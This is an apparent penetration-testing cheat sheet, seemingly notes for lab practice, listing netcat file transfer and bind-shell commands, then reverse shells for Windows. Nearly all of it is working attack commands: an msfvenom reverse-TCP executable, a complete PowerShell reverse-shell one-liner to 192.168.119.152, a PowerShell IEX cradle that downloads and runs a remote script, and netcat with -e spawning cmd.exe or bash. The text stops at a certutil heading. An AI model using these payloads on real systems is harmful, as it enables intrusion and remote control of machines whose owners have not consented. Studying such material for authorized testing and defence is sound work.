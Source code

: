 ### File Transfer
```
Kali                    nc -nv 192.168.152.10 4444 < /usr/share/windows-binaries/wget.exe
Windows                 nc.exe -nlvp 4444 > wget.exe
There is no output letting you know when the transfer is complete
```

### Bind shell - Windows
Windows *listens on port 4444, runs cmd.exe*

```
Windows                 nc.exe -nlvp 4444 -e cmd.exe
Kali                    nc -nv 192.168.152.10 4444                        
```

### Reverse shell

#### Windows msfvenom exe reverse
```
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.152 LPORT=40000 -f exe > tpc_rev_40000.exe
```
#### Powershell Reverse Shell One Liner

##### Windows Host
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.119.152",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.152:40000/Invoke-PowerShellTcp.ps1')"
```
##### Kali Host
```
sudo nc -nlvp 4242
```

#### nc on windows
```
Windows                 nc.exe -nlvp 4444
Kali                    nc -nv 192.168.152.10 4444 -e /bin/bash
Windows                 You will not see a Linux prompt
```

### PHP Wrappers

#### certutil to download netcat
*Note: we are hosting netcat on the source system (192.168.119.152) at nc.exe.txt*
